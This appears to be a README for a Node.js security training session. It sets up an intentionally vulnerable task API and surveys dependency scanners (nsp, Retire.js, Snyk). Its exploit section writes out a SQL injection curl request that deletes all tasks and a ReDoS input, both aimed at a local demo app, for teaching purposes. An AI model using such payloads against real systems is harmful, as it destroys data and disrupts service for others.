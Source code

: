 # node-security-brown-bag
Scenarios for the brown bag session about secure node applications

## Badges

Snyk: [![Known Vulnerabilities](https://snyk.io/test/github/sdepold/node-security-brown-bag/badge.svg)](https://snyk.io/test/github/sdepold/node-security-brown-bag)

NSP: [![NSP Status](https://nodesecurity.io/orgs/barfooz/projects/df73b085-1256-4e50-90df-9358236622ee/badge)](https://nodesecurity.io/orgs/barfooz/projects/df73b085-1256-4e50-90df-9358236622ee)


## Setup
The following steps have been made to initialize the project:

```
npm install -g express-generator
cd node-security-brown-bag
express -f
yarn add sequelize@3.16 mysql
yarn add --dev sequelize-cli
node_modules/.bin/sequelize init
node_modules/.bin/sequelize model:create --name Task --attributes title:string
```

## API

```
# Reading all tasks
curl "http://localhost:3000/tasks"

# Reading a limited amount of tasks
curl "http://localhost:3000/tasks?limit=2"

# Creating a task
curl "http://localhost:3000/tasks" -d '{"title":"some title"}'  -H 'content-type:application/json'
```

## Exploiting the app

```
curl "http://localhost:3000/tasks" -d '{"title":"some task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" -d '{"title":"some other task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" # Renders all tasks
curl "http://localhost:3000/tasks?limit=1" # Renders only a single task
curl "http://localhost:3000/tasks?limit=1;DELETE%20FROM%20tasks" # Will delete the tasks due to vulnerability
curl "http://localhost:3000/tasks" # Renders all available (aka no) tasks

# ReDos attack
curl "http://localhost:3000/tasks" -d '{"title":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}'  -H 'content-type:application/json'
```

## Security checks

### nsp

Website: https://nodesecurity.io/

Description:
- Uploads package.json / npm-shrinkwrap.json to NSP servers
- Analysis happens remotely
- Renders found vulnerabilities
- Can be executed against a local copy of the vulnerability registry iif the app uses npm-shrinkwrap
- Can integrate into Github and verify Pull-Requests
- More extended plans contain weekly security reviews of pull requests as well as a pair attack session
  against your application.

```
npm install --save-dev nsp
nsp check --output summary
```

### Retire.JS

Website: http://retirejs.github.io/retire.js/

Description:
- Free
- Downloads list of known vulnerabilities to local machine
- Walks through all the installed dependencies
- Check dependencies against downloaded vulnerability list
- Prints vulnerabilities

```
npm install --save-dev retire
retire
```

### Snyk

Website: https://snyk.io

Description:
- Downloads list of known vulnerabilities to local machine
- Walks through all installed dependencies
- Checks if dependencies are vulnerable based on the downloaded list (`snyk test`)
- Allows interactive auto-healing via `snyk wizard`
- Can patch vulnerabilities that are not fixed yet via `snyk protect`
- Can notify you about new or properly fixed vulnerabilities via `snyk monitor`

```
npm install -g snyk
snyk wizard
snyk test
```

## Further resources
- Super vulnerable TODO app: https://github.com/snyk/goof
- Greenkeeper Enterprise: https://github.com/greenkeeperio/greenkeeper/projects/3
- Securing Your Node.js App: http://stackabuse.com/securing-your-node-js-app/
- Tutorial about hacking an application: http://nodegoat.herokuapp.com/tutorial
- Other, similar tools:
    - https://www.sourceclear.com
- ReDoS scanner: https://github.com/jagracey/RegEx-DoS
- Explanation about ReDoS: https://en.wikipedia.org/wiki/ReDoS

## Presentation

1. Use and explain application
  1. Explain application
  2. Use and exploit the API endpoints
  3. Show vulnerability in `routes/tasks.js`
2. Security checks
  1. Run security checks
  2. Show NSP, RetireJS, Snyk
  3. Show https://github.com/sdepold/node-security-brown-bag/pull/3
  4. Create a fix via Snyk PR
  5. Show and merge https://github.com/sdepold/node-security-brown-bag/pull/4
  6. Run API requests again
3. ReDoS
  1. Run ReDoS exploit
  2. Show ReDoS vulnerability in `models/task.js`
  3. Run ReDoS test
  4. Fix regular expression (https://github.com/sdepold/node-security-brown-bag/pull/5)
4. Greenkeeper

